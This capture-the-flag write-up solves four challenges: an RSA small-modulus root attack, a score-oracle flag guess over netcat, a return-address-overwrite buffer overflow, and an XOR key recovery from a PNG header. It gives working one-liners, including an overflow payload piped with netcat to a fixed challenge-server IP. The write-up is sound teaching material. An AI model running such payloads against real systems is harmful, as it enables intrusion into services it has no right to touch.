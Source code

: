 I used terminal and pry for all the challenges.
Below is a cleaned up version without dead ends, off by one errors etc.

## Bigger Is Better

This one was the easiest of them all. In fact it was so easy that I first tried some fancier attacks before just going for this.

RSA uses this formula for encryption:

    c = p ** e % n

But for very large n that modulo does nothing, and this turns into simply:

    c = p ** e

So I loaded helpful snippets from https://github.com/taw/ctf-tools and did

    c.root(e).to_s_binary

Which gave the answer.

## Green Eggs and Ham #1

Connecting to the port and experimenting suggested that score will be lower if guess matches the flag better.

And it suggested the answer is in form "flag{something long}"

I ran this shell one liner to guess one character at a time:

    $ ruby -e 'px="flag{I_d0_s0_"; (32..127).map(&:chr).each{|x| puts(px+x)}' | nc 167.99.82.112 45678 | grep score: | ruby -nle 'STDIN.readlines.zip(33..127).each{|l,c| puts "#{l[/\d+/]} #{c.chr}"}' | sort -n | head -n2

Just expanding prefix to best match.

I thought about writing proper program for it, but creating new connection per guess was very slow, so this kind of batching was quite effective.

## My First Buffer Overflow

I copied the file to Linux machine.

First I made sure it segfaults when exposed to very long input. Since that worked I loaded it in gdb (just for better error message), and tried alphabetical messages to see which characters overwrite stack:

    $ gdb my_first_buffer_overflow_redacted
    Reading symbols from my_first_buffer_overflow_redacted...(no debugging symbols found)...done.
    (gdb) r
    Starting program: /root/my_first_buffer_overflow_redacted
    1: What's a buffer overflow?
    2: Overwriting a return address
    3: Identifying offsets
    4: Getting the fake flag
    5: Getting the flag
    6: Exit
    Your choice: ABCDABCDABABCDABCDABABCDABCDABABCDABCDAB0123456789abcdefghijkl

    Program received signal SIGSEGV, Segmentation fault.
    0x6a696867 in ?? ()

With that knowledge I did:

    $ objdump -d my_first_buffer_overflow_redacted

to find address of flag printing function (some extra padding and head/echo for cleaner output):

    $ ruby -e 'print "ABCDABCDABABCDABCDABABCDABCDABABCDABCDAB0123456789abcdef" + [0x080486d5].pack("l"); print "xxxxxxxxx\n6\n"' | ./my_first_buffer_overflow_redacted | head ; echo

Since it worked I tried that on the service to get the flag

    $ ruby -e 'print "ABCDABCDABABCDABCDABABCDABCDABABCDABCDAB0123456789abcdef" + [0x080486d5].pack("l"); print "xxxxxxxxx\n6\n"' | nc 167.99.82.112 30000

## Fuzzy Image

The hint was very helpful:

    HINT: The key is the concatenation of three lowercase English words.

I downloaded random png from the internet, and xored its first bytes with encrypted image:

    ct = open("ekfwnq-omf", "rb").read.unpack("C*")
    pt = open("sample.png", "rb").read.unpack("C*")[0,50]
    ct[0,50].zip(pt).map{|u,v| (u^v).chr}.join
    # => "dialoguecomprehenshVecn\xF5struc+aXElogwtja}x\x85m\x9F\x19\x99\xB7\\\xD1"

This suggested that words are "dialog", "comprehen*", "*stru*". Having "log" at positions 3 and 33 was a decent guess that total length of concatenated words is 30 characters.

Optionally, to double check that, length of the key can be confirmed by checking end of file header (last 4 bytes are checksum, so unknown):

    ct[-8..-1].zip("IENDxxxx".unpack("C*")).map{|u,v| (u^v)}.map(&:chr).join
    # => "stru\xB5N|\x93"

Checking offsets, 30 was the only possible key length, and "stru" is in the key at possition 24.

It's probably possible to do some statistical analysis to get the whole thing, but at this point I just used my dictionary to generate a bunch of keys.

    $ cat </usr/share/dict/words | grep '^comprehen' | ruby -nle 'open("/usr/share/dict/words").readlines.map(&:chomp).each{|x| u="dialogue"+$_+x; puts u if u.size == 30 and u.index("stru") == 24}' > keys

And then wrote down all 79 possible files:

    maybekeys = open("keys").readlines.map(&:chomp)
    maybekeys.each{|key| dec = ct.zip(key.unpack("C*") * 100000).map{|u,v| (u^v)}.pack("C*"); open("xxx-#{key}.png", "w").write(dec) }

If that didn't work, I could have gone back and expanded the regexp, but one of the files was valid PNG, so I read the flag on it.
